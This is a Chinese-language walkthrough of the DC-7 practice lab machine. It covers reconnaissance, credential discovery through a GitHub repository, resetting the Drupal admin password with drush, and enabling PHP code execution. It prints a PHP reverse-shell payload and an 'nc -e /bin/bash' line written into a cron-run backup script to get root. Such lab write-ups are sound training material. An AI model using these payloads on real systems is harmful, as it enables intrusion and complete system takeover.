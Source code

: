 # DC-7
nmap扫描
```
nmap -A -T4 192.168.111.140
```
![](vx_images/61428498856158.png)
访问80端口
Dprual站点,目录扫描也没什么有价值的东西,
这次要用到社工信息收集
页面下方作者署名,再github上找到仓库
![](vx_images/49434818420940.png)
发现一段代码
![](vx_images/536104597518587.png)
可能存在文件包含漏洞
访问发现404,那么可以利用,但被限制还是不行
发现敏感文件
![](vx_images/162646605123645.png)
3306没有对外开放
试一下ssh登录
![](vx_images/599565353599893.png)
成功登录
看了下suid,没有什么可以利用的
![](vx_images/47167980249289.png)
提示一封邮件信息
打开查看,发现.sh执行文件/opt/scripts/backups.sh
![](vx_images/581726340505881.png)
ls -al查看
![](vx_images/257353056171709.png)
能用来提权,但是需要网站权限ww-data
那么需要降权,目前是普通用户
一个思路:上传webshell到网站目录,获得www-data权限
修改后台密码
mysql连接数据库还不行
![](vx_images/434743084924626.png)
看了一下,要用drush命令修改
```
drush user-password admin --password="admin"
```
进入后台
来到moudle
添加模块包
```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```
![](vx_images/599727680999861.png)
![](vx_images/578277982917230.png)
安装成功后启用
![](vx_images/141611953582028.png)

添加信页面,写入反弹shell
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
?>
```
选择php code模块
![](vx_images/135632553687666.png)
访问触发代码

![](vx_images/472774064182284.png)
获得www权限后修改脚本文件,等待计划任务的执行,就能获取root权限
```
echo 'nc -e /bin/bash 192.168.111.128 5555' >backups.sh
```
![](vx_images/61096716352417.png)

